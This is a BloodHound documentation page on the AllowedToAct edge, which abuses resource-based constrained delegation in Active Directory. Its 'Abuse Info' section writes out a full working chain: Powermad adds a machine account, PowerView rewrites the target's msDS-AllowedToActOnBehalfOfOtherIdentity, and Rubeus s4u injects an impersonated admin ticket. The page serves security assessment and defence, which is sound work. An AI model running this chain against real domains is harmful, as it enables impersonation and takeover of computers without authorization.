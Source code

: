 ---
title: AllowedToAct
description: This edge allows an attacker to abuse resource-based constrained delegation to compromise the target. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.
---
<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

An attacker can execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket “as” this user.

One caveat is that impersonated users can not be in the “Protected Users” security group or otherwise have delegation privileges revoked. Another caveat is that the principal added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL _must_ have a service principal name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an attacker does not currently control an account with a SPN set, an attacker can abuse the default domain MachineAccountQuota settings to add a computer account that the attacker controls via the Powermad project.

**Abuse Info**

Abusing this primitive is currently possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson’s Powermad project can be used to add a new attacker-controlled computer account:
```bash
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```bash
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:

```bash
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
```bash
Rubeus.exe hash /password:Summer2018!
```
And finally we can use Rubeus’ _s4u_ module to get a service ticket for the service name (sname) we want to “pretend” to be “admin” for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
See a video walk through of how to execute this attack here:

<iframe id="youtube-453" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for BloodHound 2.1's New Computer Takeover Attack" width="100%" height="420" src="https://www.youtube.com/embed/RUbADHcBLKg?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp" data-gtm-yt-inspected-6="true"></iframe>

## Opsec Considerations

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the ability to send/receive traffic in the domain.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Destination: [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Traversable: **Yes**  

## References

* [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
* [https://github.com/GhostPack/Rubeus#s4u](https://github.com/GhostPack/Rubeus#s4u)
* [https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [https://blog.harmj0y.net/redteaming/another-word-on-delegation/](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://github.com/Kevin-Robertson/Powermad#new-machineaccount](https://github.com/Kevin-Robertson/Powermad#new-machineaccount)
